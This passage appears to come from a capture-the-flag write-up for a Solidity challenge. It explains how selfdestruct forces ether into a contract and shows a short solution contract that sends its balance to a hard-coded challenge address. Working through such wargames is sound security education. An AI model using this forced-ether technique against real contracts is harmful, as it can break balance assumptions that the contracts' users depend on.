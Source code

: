 This cannot be prevented by the receiving contract. Based on this behavior, contracts SHOULD NOT rely on `address(this).balance == 0` to perform any critical operation.

I created the contract shown below and deployed it with 100 wei. After that I called the `attack()` function that self destructs the contract, sending the balance to the challenge contract.

## Further Reading

- Selfdestruct - https://solidity-by-example.org/hacks/self-destruct/
- Solidity - transfer vs send vs call function - https://medium.com/coinmonks/solidity-transfer-vs-send-vs-call-function-64c92cfc878a

### Solution Source code

```
Solution:

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyEther {
    address victimContract = 0x4493eeC7243873b94278497fF64Cb12bB9a778Bc;

    constructor() payable public {
        
    }

    function attack() public payable {
        address payable addr = payable(address(victimContract));
        selfdestruct(addr);
    }
}
```